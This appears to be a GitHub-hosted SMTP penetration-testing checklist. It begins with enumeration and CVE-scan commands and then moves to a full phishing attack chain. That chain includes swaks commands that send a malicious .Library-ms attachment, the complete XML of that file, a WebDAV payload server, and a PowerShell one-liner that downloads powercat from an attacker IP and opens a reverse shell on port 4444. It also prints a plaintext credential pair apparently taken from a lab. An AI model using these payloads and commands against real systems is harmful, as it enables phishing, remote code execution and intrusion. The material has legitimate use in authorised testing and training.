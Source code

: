 # SMTP Pentesting Checklist & Commands

A practical guide for assessing SMTP services during penetration tests. Use responsibly and only with proper authorization.

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating SMTP (port 25), I realistically expect to find:

- [ ] Service banner revealing version and server details
- [ ] Users or valid email addresses through VRFY/EXPN enumeration
- [ ] Default or weak credentials (for authenticated SMTP)
- [ ] Possible open relay allowing external spam/phishing
- [ ] Vulnerabilities in specific server versions (known CVEs)
- [ ] Ability to send phishing emails with payload attachments
- [ ] Internal network or host information leaked in headers


## ✅ SMTP Pentest Checklist

- [ ] **Check the SMTP Version**
```bash
nmap -p25 --script smtp-commands <IP>
nmap --script=smtp-* -p25 <IP>
```
- [ ] **Username Enumeration**

```bash
smtp-user-enum -M VRFY -U names.txt -t <IP>
use auxiliary/scanner/smtp/smtp_enum (Metasploit)
nc -nvv <IP> 25
VRFY root
telnet <IP> 25
```

- [ ] **Manual Verification via Telnet**

```
HELO anydomain.com
MAIL FROM: sender@domain.com
RCPT TO: user@target.com
```

- [ ] **Brute-Force / Exploit the Version**

```bash
nmap --script=smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p25 <IP>
searchsploit smtp
```

- [ ] **Phishing Attack with Swaks**
```bash
sudo swaks -t victim@domain.com --from attacker@domain.com --attach payload.Library-ms --server <IP> --body body.txt --header "Subject: Important Update" -ap
```
---

## ✅ Recommended Nmap Commands

- Basic detection and safe scripts.
```bash
nmap -sC -sV -p25 <IP>
```

- User enumeration and vulnerability detection.
```bash
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p25 <IP>
```
---

## ✅ Advanced Phishing Attack Example

- **Example Credential Use**
    maildmz:DPuBT9tGCBrTbR

- **Send Phishing Email with Attachment**
    sudo swaks -t jim@relia.com --from maildmz@relia.com --attach config.Library-ms --server 192.168.177.189 --body body.txt --header "Subject: Staging Script" -ap

- **Launch WebDAV Server for Payload Hosting**
    wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /path/to/webdav/

- **Example Malicious .Library-ms File**

```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
        <name>@windows.storage.dll,-34582</name>
        <version>6</version>
        <isLibraryPinned>true</isLibraryPinned>
        <iconReference>imageres.dll,-1003</iconReference>
        <templateInfo>
            <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
        </templateInfo>
        <searchConnectorDescriptionList>
            <searchConnectorDescription>
                <isDefaultSaveLocation>true</isDefaultSaveLocation>
                <isSupported>false</isSupported>
                <simpleLocation>
                    <url>http://192.168.45.161</url>
                </simpleLocation>
            </searchConnectorDescription>
        </searchConnectorDescriptionList>
    </libraryDescription>
```

- **Example Shortcut Payload**
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.161:8000/powercat.ps1'); powercat -c 192.168.45.161 -p 4444 -e powershell"
```

- **Supporting Infrastructure**
    - Python server on port 8000 to host powercat.ps1
    - Netcat listener on port 4444 for reverse shell

---

## ✅ Final Attack Launch Command

    sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.208.189 --body body.txt --header "Subject: Staging Script" -ap
    Username: maildmz
    Password: DPuBT9tGCBrTbR
